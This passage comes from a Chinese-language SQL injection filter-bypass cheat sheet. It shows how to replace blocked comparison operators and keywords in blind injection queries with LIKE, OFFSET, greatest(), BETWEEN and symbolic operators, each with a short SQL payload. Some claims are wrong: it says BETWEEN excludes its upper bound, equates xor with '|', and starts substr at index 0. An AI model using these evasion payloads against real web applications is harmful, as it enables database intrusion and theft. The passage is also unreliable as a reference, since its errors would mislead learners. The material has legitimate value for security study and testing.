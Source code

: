 其中 **a** 和 **b** 是别名的意思， <br>
**()a 相当于  () as a**

------

**使用like：** <br>

```sql
select ascii(mid(user(),1,1))=97     
# 等价于下面这条语句
select user() like 'a%'   
```

ASCII 97 对应的是小写字母**a** <br>

**a%** 意思是匹配以a开头的所有东西

------

**对于limit可以使用offset来绕过：** <br>

```sql
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0  
```

------

**5. 比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，可以使用between的脚本）：** <br>

使用greatest()、least（）：（前者返回最大值，后者返回最小值）<br>

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找，<br>

如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。<br>

最常见的一个盲注的sql语句： <br>
```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了， <br>

greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。<br>

那么上面的这条sql语句可以使用greatest变为如下的子句: <br>
```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```
也可以使用between and： <br>

between a and b：返回a，b之间的数据，不包含b。


--------

**6. or and xor not绕过：** <br>

```sql
and = &&  
or = ||   
xor = |   
not = !
```
